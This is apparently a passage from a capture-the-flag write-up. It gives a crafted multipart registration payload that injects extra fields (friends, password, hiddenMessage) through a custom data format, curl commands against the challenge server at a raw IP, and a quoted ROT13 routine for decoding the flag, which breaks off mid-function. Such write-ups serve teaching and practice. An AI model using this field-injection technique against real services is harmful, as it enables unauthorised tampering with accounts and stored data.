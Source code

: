 ```
#custom
#author #name ##hack
#friends #length ##3
#hiddenMessage #1 ##b
```

## Exploit Execution

1. **Register a User**:
   ```bash
   curl -X POST http://157.230.243.4:1337/api/register \
     -H "Date: 1970-01-01T00:16:36.171Z" \
     -H "Content-Type: multipart/form-data" \
     -F "username=hacker" \
     -F "password=hacked" \
     -F $'data=#custom\n#author #name ##hack\n#friends #0 ##\n#friends #1 ##\n#friends #2 ##\n#friends #length ##3\n#password #value ##hacked\n#hiddenMessage #1 ##b'
   ```

2. **Login with the Registered User**:
   ```bash
   curl -X POST http://157.230.243.4:1337/api/login \
     -H "Date: 1970-01-01T00:16:36.171Z" \
     -H "Content-Type: multipart/form-data" \
     -F "username=hacker" \
     -F "password=hacked"
   ```

## Decrypting the Flag

The flag is hidden in the `hiddenMessage` field, which is processed using the following JavaScript functions:

```js
function hiddenMessage(str, parts) {
  const chunks = splitHiddenMessage(str, parts);
  return chunks.map(encMsg);
}

function splitHiddenMessage(str, parts = 3, padChar = "_") {
  let len = str.length;
  const remainder = len % parts;

  if (remainder !== 0) {
    const padLength = parts - remainder;
    str = str + padChar.repeat(padLength);
    len = str.length;
  }

  const chunkSize = len / parts;
  const result = [];

  for (let i = 0; i < parts; i++) {
    result.push(str.slice(i * chunkSize, (i + 1) * chunkSize));
  }

  return result;
}

function encMsg(str) {
  return str.replace(/[a-zA-Z]/g, (c) =>
    String.fromCharCode(
      (c <= "Z" ? 90 : 122) >= (c = c.charCodeAt(0) + 13) ? c : c - 26
    )
```